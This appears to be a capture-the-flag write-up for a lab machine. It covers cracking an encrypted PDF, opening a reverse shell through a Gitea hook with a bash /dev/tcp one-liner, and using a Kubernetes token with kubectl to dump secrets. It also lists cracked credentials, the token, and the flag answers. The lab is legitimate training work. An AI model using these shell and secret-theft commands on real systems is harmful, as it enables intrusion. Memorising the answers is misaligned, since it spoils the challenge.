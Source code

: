 ### IP:30180/team/
In the source code we get a big b64 encoded string which decodes to a pdf that's encrypted

Running pdf2john on the file to get a hash and then johntheripper on the hash gets us `I_am_geniu5_P4ladin#`

## Exploits

### Gitea
We can create a new post-hook that runs `bash -i >& /dev/tcp/10.6.66.15/1337 0>&1 ` and listen to the port with `pwncat`

### kubectl

From the k8s account token below we can run `kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://team.thm:6443 auth can-i --list`

```
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
            [*]                 []               [*]
```

Then we can get the second flag with `kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://team.thm:6443 -n kube-system get secret flag3 -o json | jq -r '.data | map_values(@base64d)'
`



## Crendentials
leeroy@jenki.ns - `I_am_geniu5_P4ladin#` gitea

k8s service account token: 
```
eyJhbGciOiJSUzI1NiIsImtpZCI6IkNtT1RDZkpCdzVWVjR2eVE2OVl3TGlya0tVZ21oY1NrTVBuUnUwb0JUU2sifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tcXM2aHAiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjhlYjIwMTIwLTQ1M2MtNDI3YS05ZDZiLTQyZmZlNDY3MGMzZCIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.mzW7wWtI8ch5EDMQEhCD3jY4g56CzhO1RPyHUx5bYF7ZJVKH_qdniY0watK8GoQXNeGJKp7vk2B68efG4UaWWMCiJR6vX_d7L3HxDSbHebbD2WL17AhDFXE8QDkuZ2mO_dLnKm_DBrMA2_63v5JQfXJnU-rjSD4Xq39_LVI106frHLqVkX-roHzY4fHGjYe8ys9pwuy7Wk3QCRrYfnyuuVpglKCPfaLLnUdgbVg-x7zGrK_4MB780V7TNdZ0pH0dpfTxyS7L5KeW8uKVsG0hsfBXABv-Q_BsGuvvotpdPzrsAWkBspRRsoOPq28Cfl6uOZBAx_djkHFv3vza54WS9w
```


### Potential users
leeroy (gitea) - leeroy@jenki.ns
### User:Pass

## Flags
Flag 1: `flag{Stick_to_the_plan!}` from the webhook page. It's the secret.

Flag 2: `flag{_G0ddamit_Leeroy_}` in /root

Flag 3: `flag{Its_n0t_my_fault!}` see kubectl exploit

Flag 4: `flag{At_least_i_have_chicken}`
